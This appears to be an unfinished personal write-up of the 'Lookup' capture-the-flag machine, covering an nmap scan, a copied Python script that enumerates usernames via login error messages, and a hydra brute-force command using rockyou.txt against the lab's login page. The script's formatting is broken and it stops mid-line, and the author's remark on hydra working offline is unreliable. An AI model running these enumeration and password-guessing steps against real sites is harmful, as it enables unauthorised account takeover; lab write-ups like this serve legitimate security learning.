

# Lookup

**Lookup** offers a treasure trove 
of learning opportunities for aspiring hackers. This intriguing machine 
showcases various real-world vulnerabilities, ranging from web 
application weaknesses to privilege escalation techniques. By exploring 
and exploiting these vulnerabilities, hackers can sharpen their skills 
and gain invaluable experience in ethical hacking. Through "Lookup," 
hackers can master the art of reconnaissance, scanning, and enumeration 
to uncover hidden services and subdomains. They will learn how to 
exploit web application vulnerabilities, such as command injection,
 and understand the significance of secure coding practices. The machine
 also challenges hackers to automate tasks, demonstrating the power of 
scripting in penetration testing.

**Note:** It is recommended to use your own VM if you'll ever experience problems visualizing the site.

starting off with nmap scan

results:

01:33:12 root@kali lookup → cat nmap.txt
Starting Nmap 7.98 ( [https://nmap.org](https://nmap.org/) ) at 2026-01-22 13:32 -0500
Nmap scan report for 10.66.147.218
Host is up (0.070s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 5e:44:ea:83:f0:97:3e:6b:b9:31:a4:2f:f0:96:6a:87 (RSA)
|   256 87:c0:69:23:f4:cf:c9:34:00:df:ee:dc:4b:ea:3c:fe (ECDSA)
|_  256 c6:f4:f5:50:14:4b:95:03:02:c0:a7:02:89:58:db:13 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Did not follow redirect to [http://lookup.thm](http://lookup.thm/)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at [https://nmap.org/submit/](https://nmap.org/submit/) .
Nmap done: 1 IP address (1 host up) scanned in 28.50 seconds

port 22/tcp is open, it’s SSH 8.2p1

port 80/tcp open HTTP, running Apache httpd 2.4.41

redirect:       http://lookup.thm

adding URL to etc/hosts/ to make things easier for this overall xD

in firefox, goin to “http://lookup.thm”:

here, if you try “username:username”, the output is wrong password  And username.

but when you run “admin:admin”, it’ll say wrong password only

found a python script on a [medium.com](http://medium.com) walkthrough for lookup:

import requests

# Define the target URL

url = "http://lookup.thm/login.php"

# Define the file path containing usernames

file_path = "/usr/share/seclists/Usernames/Names/names.txt"

# Read the file and process each line

try:

with open(file_path, "r") as file:

for line in file:

username = line.strip()

if not username:

continue  # Skip empty lines

# Prepare the POST data

data = {

"username": username,

"password": "password"  # Fixed password for testing

}

# Send the POST request

response = requests.post(url, data=data)

# Check the response content

if "Wrong password" in response.text:

print(f"Username found: {username}")

elif "wrong username" in response.text:

continue  # Silent continuation for wrong usernames

except FileNotFoundError:

print(f"Error: The file {file_path} does not exist.")

except requests.RequestException as e:

print(f"Error: An HTTP request error occurred: 
the output from running the username_script

username ‘jose’ is found.

runnig jose:password says wrong password, so we for sure know the username is usable. 

now that i have a username to work with, i can use hydra to try and brute force my way in, by just trying to use jose with a wordlist of passwords, if the password is in the list, it’ll be found.

hydra -l jose -P /usr/share/wordlists/rockyou.txt lookup.thm http-post-form "/login.php:username=^USER^&password=^PASS^:Wrong" -V

that’s the hydra command.

hydra is a command line tool, that’s used for password related things, kinda like johntheripper, but hydra can do things offline i think.

so the command is using hydra, with the’jose’ username, the list of passwords i’m going to try is the rockyou.txt list, 

maybe false positives?

logging in with jose:password123

